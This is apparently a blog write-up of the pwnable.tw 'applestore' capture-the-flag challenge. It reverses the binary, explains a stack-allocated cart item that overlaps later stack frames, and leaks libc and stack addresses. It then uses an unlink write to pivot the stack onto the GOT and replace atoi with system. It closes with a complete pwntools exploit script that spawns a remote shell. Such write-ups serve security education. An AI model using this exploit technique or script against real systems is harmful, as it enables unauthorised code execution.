



+++
title = "pwnable.tw - applestore"
description = """
Writeup of pwnable.tw's 'applestore' challenge. We abuse a stack-based buffer overflow to gain remote code \
execution by overlaying the stack frame on top of the Global Offset Table. \
"""
date = 2020-08-27
updated = 2020-11-06
aliases = ["/posts/5f478a835f6cee02e28f045a-pwnabletw-applestore"]
[taxonomies]
tags = ["pwnable.tw", "binary-exploitation", "pwntools", "rce"]
categories = ["ctf-writeups"]
+++


# Challenge
> tomcr00se rooted the galaxy S5, but we need you to jailbreak the iPhone8!
>
> nc chall.pwnable.tw 10104

[show-line-numbers]: false

We're also given a [binary](https://pwnable.tw/static/chall/applestore) and 
[libc](https://pwnable.tw/static/libc/libc_32.so.6) shared executable.


# Reversing

When reversing binaries, I usually run the binary and compare its execution alongside the disassemby+pseudocode. 
When we run the given binary, we're greeted by a menu with 6 options:

<!-- more -->



Going through and reversing each function isn't too difficult. The application allows us to view products, 
add, remove, and list items in our cart, and checkout.

## Input Handler
The main function sets up I/O buffering, prints out the menu, clears a global variable, and calls the following function
to handle input:
```c
void handler(void) {
  int iVar1;
  int input;
  int in_GS_OFFSET;
  char input_str [22];
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  do {
    printf("> ");
    fflush(stdout);
    my_read(input_str,0x15);
    input = atoi(input_str);
    switch(input) {
    default:
      puts("It\'s not a choice! Idiot.");
      break;
    case 1:
      list();
      break;
    case 2:
      add();
      break;
    case 3:
      delete();
      break;
    case 4:
      cart();
      break;
    case 5:
      checkout();
      break;
    case 6:
      puts("Thank You for Your Purchase!");
      if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
        __stack_chk_fail();
      }
      return;
    }
  } while( true );
}
```

The `my_read` function simply reads n characters into the specified buffer.  The `list` function prints out a list of products:

```c
void list(void) {
  puts("=== Device List ===");
  printf("%d: iPhone 6 - $%d\n",1,199);
  printf("%d: iPhone 6 Plus - $%d\n",2,299);
  printf("%d: iPad Air 2 - $%d\n",3,499);
  printf("%d: iPad Mini 3 - $%d\n",4,399);
  printf("%d: iPod Touch - $%d\n",5,199);
  return;
}
```

## Adding/Removing Items
The `add` and `delete` functions are straightforward. They act on a doubly-linked list and respectively add an item or 
remove an item. The `delete` function allows us to specify the index to delete, while `add` inserts a new item at the end of the linked list.

The head node of the list is stored in a global variable named `myCart`. I defined the following struct to represent 
each node in the list:



## Checkout
The checkout function is interesting and contains a clear vulnerability:

```c
void checkout(void) {
  int iVar1;
  int in_GS_OFFSET;
  int total;
  cart_item item;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  total = cart();
  if (total == 0x1c06) {
    puts("*: iPhone 8 - $1");
    asprintf((char **)&item,"%s","iPhone 8");
    item.price = 1;
    insert(&item);
    total = 0x1c07;
  }
  printf("Total: $%d\n",total);
  puts("Want to checkout? Maybe next time!");
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail();
  }
  return;
}
```

This function calls `cart` which displays all of the items in the cart and returns the total value of the items in the 
cart. If the total value of the cart is 0x1c06 (7174 in decimal), then a discounted iPhone 8 is added to our doubly-linked list.

However, this new item isn't dynamically allocated using `malloc` -- it's stored on the stack. This means that its 
value can change if another function's stack frame overlaps its location in memory.


# Exploitation

## Triggering the vulnerability

The stack item is only added if the total is 7174. It's not hard to find a combination of items that add up to 7174:
```
iPhone 6    ($199)  x  19 = 3781
iPad Air 2  ($499)  x   6 = 2994
iPad Mini 3 ($399)  x   1 =  399
Total                     = 7174
```

Now we can add a stack address to the linked list by checking out. In this case, the vulnerable cart item will be at 
index 27 (as displayed by the binary).

## Overwriting the item

Since the `handler` function continuously loops until the user chooses to exit, its stack frame remains consistent at 
the same address. Thus, the stack frames of functions it calls will start at the same address.

The diagram below shows the stack layout when calling `checkout` side-by-side with the stack layout when calling `delete`.

{{ svg(path="5f478a365f6cee02e28f0452.svg") }}

There is an overlap of the memory referenced by the added cart item and the buffer for the input string in the `delete` 
function. Thus, any operations on the stack cart item will reference our controlled buffer. Luckily, this same overlap 
is consistent among `add`, `delete`, and `cart`.

## Reading arbitrary addresses

The cart function iterates through all of the values in the doubly-linked list and prints their name and price:
```cpp
int cart(void) {
  int iVar1;
  int in_GS_OFFSET;
  int index;
  int total;
  cart_item *cur_item;
  char input [22];
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  index = 1;
  total = 0;
  printf("Let me check your cart. ok? (y/n) > ");
  fflush(stdout);
  my_read(input,0x15);
  if (input[0] == 'y') {
    puts("==== Cart ====");
    cur_item = myCart.next;
    while (cur_item != (cart_item *)0x0) {
      printf("%d: %s - $%d\n",index,cur_item->name,cur_item->price);
      total = total + cur_item->price;
      cur_item = cur_item->next;
      index = index + 1;
    }
  }
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return total;
}
```

We can use the input buffer to overwrite the fields of the vulnerable cart item. We need to set the first character of 
our payload to `y`, and the second character to anything. The next 16 bytes contain the values of the struct:

{{ svg(path="5f478a485f6cee02e28f0454.svg") }}

We can set the name pointer to an arbitrary address to print the value at that address.

### Leaking Libc Base Address

By setting the name pointer to a global offset table (GOT) entry, we can leak the address of a function in libc. Since 
we also have the libc file, we can calculate the base address of libc by subtracting the offset of the function.

We can use the following to leak the address of `read` and calculate the base address of libc:
```python
def create_cart_struct(name_ptr, price_int, next_ptr=0, prev_ptr=0):
	return p32(name_ptr) + p32(price_int) + p32(next_ptr) + p32(prev_ptr)

cart(b'yy' + create_cart_struct(elf.got['read'], 0))

print(r.recvuntil(b'27: '))

LIBC_READ_ADDR = u32(r.read(4))
libc.address = LIBC_READ_ADDR - libc.symbols['read']
```

### Leaking a stack address

Now that we have the libc base address, we can leak a stack address by finding the value of the `char **environ` symbol 
in libc. The value at the address pointed to by `environ` has a constant offset to the base stack pointer of delete. 

By using GDB, I found this offset to be 260. The following leaks the address pointed to by delete's EBP: 

```python
cart(b'yy' + create_cart_struct(libc.symbols['environ'], 0))

r.recvuntil(b'27: ')

ENVIRON_STACK = u32(r.recv(4))
DELETE_EBP = ENVIRON_STACK - 260
```

## Writing to ~~arbitrary~~ addresses

The `delete` function is an interesting target to analyze when looking for a write primitive:

```cpp
void delete(void) {
  int iVar1;
  int input;
  int in_GS_OFFSET;
  int number;
  cart_item *cur_item;
  char input_str [22];
  cart_item *next;
  cart_item *prev;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  number = 1;
  cur_item = myCart.next;
  printf("Item Number> ");
  fflush(stdout);
  my_read(input_str,0x15);
  input = atoi(input_str);
  do {
    if (cur_item == (cart_item *)0x0) {
LAB_08048a5e:
      if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
        __stack_chk_fail();
      }
      return;
    }
    if (number == input) {
      next = cur_item->next;
      prev = cur_item->prev;
      if (prev != (cart_item *)0x0) {
        prev->next = next;
      }
      if (next != (cart_item *)0x0) {
        next->prev = prev;
      }
      printf("Remove %d:%s from your shopping cart.\n",number,cur_item->name);
      goto LAB_08048a5e;
    }
    number = number + 1;
    cur_item = cur_item->next;
  } while( true );
}
```

When a item is deleted, the `prev` and `next` pointers are used to remove references to the deleted item from both the 
previous and following item. Unfortunately, this means that both of the addresses referenced will be modified. Therefore, 
the modified memory must be writeable. This rules out overwriting a GOT entry to point to a function in libc.


## Redirecting execution flow

An interesting way around this limitation is to use the previously leaked base stack address. If we can overwrite the 
stored base pointer, then we can have writes to stack addresses performed somewhere else in memory. One target to place 
the stack over is the global offset table (GOT).

We can set the next pointer to the address of the stored EBP - 0xc (because `next->prev` would write to next + 0xc). 

Then we set the previous pointer to the address of atoi in the GOT + some offset. A suitable target on the stack that 
we control is `input_str` in the `handler` function's stack frame. This is at offset `+0x22` from handlers's EBP. Thus, 
if we set the previous pointer to `atoi + 0x22`, the GOT entry for `atoi` will be overwritten with our input.

The following diagram illustrates our attack:

{{ svg(path="5f478a5e5f6cee02e28f0456.svg") }}

The following overwrites the addresses:
```python
delete(b'27' + create_cart_struct(0x8048f88, 0, DELETE_EBP - 0xc, elf.got['atoi'] + 0x22))
```

## Obtaining a shell

We can overwrite the GOT entry for atoi with the address of system. Now all we have to do is pass `/bin/sh` in the call 
to atoi. Since our input buffer in `handle` overwrites the GOT entry, our input starts with the address of system and 
includes `;/bin/sh;`:

```python
r.sendafter(b'>', p32(libc.symbols['system']) + b';/bin/sh;')

r.interactive()
```




# Full script

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./applestore")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = elf

def conn():
    if args.LOCAL:
        return process([ld.path, elf.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("chall.pwnable.tw", 10104)


r = conn()

def list():
	r.sendafter(b'>', b'1')

def add(idx):
	r.sendafter(b'>', b'2')
	r.sendafter(b'> ', idx)

def delete(idx):
	r.sendafter(b'>', b'3')
	r.sendafter(b'Item Number> ', idx)

def cart(confirmation):
	r.sendafter(b'>', b'4')
	r.sendafter(b'> ', confirmation)

def checkout(confirmation):
	r.sendafter(b'>', b'5')
	r.sendafter(b'> ', confirmation)

for i in range(19):
	add(b'1')


for i in range(6):
	add(b'3')

add(b'4')

checkout('y')

def create_cart_struct(name_ptr, price_int, next_ptr=0, prev_ptr=0):
	return p32(name_ptr) + p32(price_int) + p32(next_ptr) + p32(prev_ptr)

cart(b'yy' + create_cart_struct(elf.got['read'], 0x8049028))

print(r.recvuntil(b'27: '))

LIBC_READ_ADDR = u32(r.read(4))
libc.address = LIBC_READ_ADDR - libc.symbols['read']

info("Leaked libc.read address: " + hex(LIBC_READ_ADDR))
info("Found libc base address:  " + hex(libc.address))
info("__malloc_hook address:    " + hex(libc.symbols['__malloc_hook']))
info("environ** address:        " + hex(libc.symbols['environ']))

cart(b'yy' + create_cart_struct(libc.symbols['environ'], 0))

r.recvuntil(b'27: ')

ENVIRON_STACK = u32(r.recv(4))
DELETE_EBP = ENVIRON_STACK - 260

info("environ stack address:    " + hex(ENVIRON_STACK))
info("delete ebp address:       " + hex(DELETE_EBP))
info("atoi got address:         " + hex(elf.got['atoi']))


delete(b'27' + create_cart_struct(0x8048f88, 0, DELETE_EBP - 0xc, elf.got['atoi'] + 0x22))

r.sendafter(b'>', p32(libc.symbols['system']) + b';/bin/sh;')

r.interactive()
```
